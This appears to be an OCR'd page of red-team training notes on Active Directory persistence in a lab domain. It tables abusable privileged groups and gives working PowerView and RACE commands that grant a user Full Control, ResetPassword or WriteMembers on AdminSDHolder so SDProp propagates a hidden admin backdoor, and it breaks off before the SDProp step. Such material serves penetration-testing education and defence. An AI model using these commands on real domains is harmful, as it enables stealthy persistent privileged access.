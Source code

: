 | Group Name         | Privileges / Actions |
|--------------------|---------------------------------------------------------------|
| Account Operators | Cannot modify DA/EA/BA groups. Can modify nested groups within these groups. |
| Backup Operators  | Backup GPO, edit to add SID of controlled account to a privileged group, and restore. |
| Server Operators  | Run a command as SYSTEM (using the disabled Browser service). |
| Print Operators   | Copy `ntds.dit` backup, load device drivers. |

• With DA privileges (Full Control/Write permissions) on the
AdminSDHolder object, it can be used as a backdoor/persistence
mechanism by adding a user with Full Permissions (or other interesting
permissions) to the AdminSDHolder object.
• In 60 minutes (when SDPROP runs), the user will be added with Full
Control to the AC of groups like Domain Admins without actually being a
member of it.


Add FullControl permissions for a user to the AdminSDHolder using PowerView as DA:

```
Add-DomainObjectAcl -TargetIdentity
'CN=AdminSDHolder,CN=System,dc=us,dc=techcorp,dc=local' -PrincipalIdentity
studentuser1 -Rights All -PrincipalDomain us.techcorp.local -TargetDomain
us.techcorp.local -Verbose
```

Using ActiveDirectory Module and RACE toolkit:

(https://github.com/samratashok/RACE) 

```
Set-DCPermissions -Method AdminSDHolder -SAMAccountName studentuser1 -Right
GenericAll -DistinguishedName
'CN=AdminSDHolder,CN=System,dc=us,dc=techcorp,dc=local' -Verbose
```

Other interesting permissions (ResetPassword, WriteMembers) for a user to the
AdminSDHolder:

```
Add-DomainObjectAcl -TargetIdentity
'CN=AdminSDHolder,CN=System,dc=us,dc=techcorp,dc=local' -
PrincipalIdentity studentuser1 -Rights ResetPassword -
PrincipalDomain us.techcorp.local -TargetDomain us.techcorp.local -
Verbose
```


```
Add-DomainObjectAcl -TargetIdentity
'CN=AdminSDHolder,CN=System,dc=us,dc=techcorp,dc=local' -
PrincipalIdentity studentuser1 -Rights WriteMembers -PrincipalDomain
us.techcorp.local -TargetDomain us.techcorp.local -Verbose
```

Run SDProp manually using Invoke-SDPropagator.ps1 from Tools
directory:
